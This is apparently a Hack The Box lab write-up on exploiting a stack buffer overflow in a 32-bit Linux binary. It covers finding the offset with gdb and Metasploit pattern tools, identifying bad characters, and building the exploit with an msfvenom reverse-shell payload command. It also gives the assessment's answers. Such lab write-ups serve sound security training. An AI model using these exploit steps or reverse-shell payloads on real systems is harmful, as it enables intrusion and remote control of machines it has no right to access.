


HTB Skill Assessment

## **Filetype of `leave_msg`**

To determine filetype of file, we can use following command.

```
file leave_msg
```


**Answer: ELF 32-bit**

To notes:
* Probably we work with x86 architecture

## **Testing for buffer overflow vulnerability**

Now we will check if program is vulnerable to buffer overflow, in contrary to previous CTFs, here we will use GNU Debugger (gdb).

Let's start debugging with command:

```
gdb -q leave_msg
```

Now we can try to overflow the buffer with some garbage data, for example we can use python to do this. It is worth noting that we used 2100 characters.

```
(gdb) run $(python -c "print('\x55'*2100)")
```

As a result we get segmentation fault. Debugger informs us that we have overwritten the EIP.


**So, `leave_msg` is vulnerable to buffer overflow.**

## **Finding offset**

Now we will focus on finding offset. Firstly, we can use `pattern_create.rb` tool which is part of Metasploit framework with 2100 length (as a parameter).


Let's use this output to fuze our vulnerable program.
```
(gdb) run $(python -c "print('<OUTPUT from pattern create>')")
```


Now the EIP is 0x37714336, we can use `pattern_offset.rb` to determine the offset.


**How many bytes in total must be sent before reaching EIP? 2060.**


## **Taking control of EIP**

In future we will try to exploit that vulnerability to gain some root, so we need to determine the length of shellcode, we can assume that it will be 150 byes. It can be useful to insert some no operation instruction (NOPS) before our shellcode begins so that it can be executed cleanly.

```
    Buffer = "\x55" * (2060-100-150-4) = 1806
    NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
    EIP = "\x66" * 4
```

In result of exploitation we should get EIP: "\x66\x66\x66\x66".

### **Identifying bad chars**

However, before serious exploitation we need to specify bad characters. Now instead of shellcode we will provide the list of bad chars.

```
    Buffer = "\x55" * (2060-100-256-4) = 1700
    CHARS = "\x00\x01\x02..." // length is 256
    EIP = "\x66" * 4'
```
Before next steps, let's take a look at main function, in gdb use:

```
(gdb) disas main
```

In the output we can observe interesting call to `leavemsg` function. Let's put a breakpoint at it.


Now let's exploit that program with the following command:

```
(gdb) run $(python -c 'print("\x55"*1700 + "\x00\x01\x02..." + "\x66"*4)')
```

Now take a look into memory using:

```
(gdb) x/2000xb $esp+2000
```



We can see that there is not null byte ("\x00") so this is our first bad char. No we need to repeat the whole process.

```
    Buffer = "\x55" * (2060-100-255-4) = 1701
    CHARS = "\x01\x02..." // length is 255
    EIP = "\x66" * 4'
```


Now we can see there is no "\x09". Note it and let's go further.

```
    Buffer = "\x55" * (2060-100-254-4) = 1702
    CHARS = "\x01\x02..." // length is 254
    EIP = "\x66" * 4'
```


Now there is no "\x0a". Note it and let's go further.

```
    Buffer = "\x55" * (2060-100-253-4) = 1703
    CHARS = "\x01\x02..." // length is 253
    EIP = "\x66" * 4'
```


Now there is no "\x20". After next iteration we can't see any more bad chars.


**So identified bad chars are: \x00\x09\x0a\x20**

### **Generating shellcode**

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

In result we get shellcode which length is 95 bytes.

```
    Buffer = "\x55" * (2060-100-95-4) = 1861
    NOPs = "\x90" * 100
    Shellcode = <shellcode generated by msfvenom>
    EIP = "\x66" * 4
```

Now explot it with:

```
(gdb) run $(python -c 'print("\x55"*1861 + Shellcode + "\x66"*4)')
```

Let's take a look at memory dump again:


Below the marked line we have our shellcode, let's write that address **(0xffffd6dc)** - I'm aware that it is some space before the shellcode but it is on purpouse - we should give some time to program to respond correctly. This address will refer to our EIP.

```
    Buffer = "\x55" * (2060-100-95-4) = 1861
    NOPs = "\x90" * 100
    Shellcode = <shellcode generated by msfvenom>
    EIP = "\xdc\xd6\xff\xff"
```


### **Checking size of stack (HTB question)**


Use the following command to check size of stack:

```
(gdb) info proc all
```


**Answer: 0x22000**


## **Gaining flag**


All what we have to do is to set listener and use our payload - exploit program.





**Answer: FLAG - everyone on HTB has its own unique flag**.

